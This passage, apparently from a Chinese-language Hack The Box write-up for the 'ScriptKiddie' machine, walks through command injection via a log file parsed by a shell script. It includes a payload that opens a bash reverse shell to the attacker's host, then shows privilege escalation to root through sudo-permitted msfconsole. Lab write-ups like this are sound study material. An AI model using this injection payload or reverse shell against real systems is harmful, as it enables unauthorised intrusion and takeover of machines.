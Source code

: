 scanlosers.sh里的这句其实是把IP从日志抽取出来
```
cat $log | cut -d' ' -f3- | sort -u
```

然后执行nmap命令
```
sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
```

```${ip}```是我们可以控制的输入，因此存在命令注入

使用下面payload
```
echo "x x x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.16.2/4242 0>&1' # ."  > /home/kid/logs/hackers
```

成功横移到pwn用户
```
┌──(root💀kali)-[~/htb/ScriptKiddie]
└─# nc -lnvp 4242                                                                                                 1 ⨯
listening on [any] 4242 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.226] 52008
bash: cannot set terminal process group (875): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ whoami
whoami
pwn
pwn@scriptkiddie:~$ id
id
uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
pwn@scriptkiddie:~$ 

```

# 提权到root

直接进入msf
```
sudo /opt/metasploit-framework-6.0.9/msfconsole
```

在msf是可以直接执行命令的，读取root.txt
```
msf6 > cat root.txt
stty: 'standard input': Inappropriate ioctl for device
[*] exec: cat root.txt
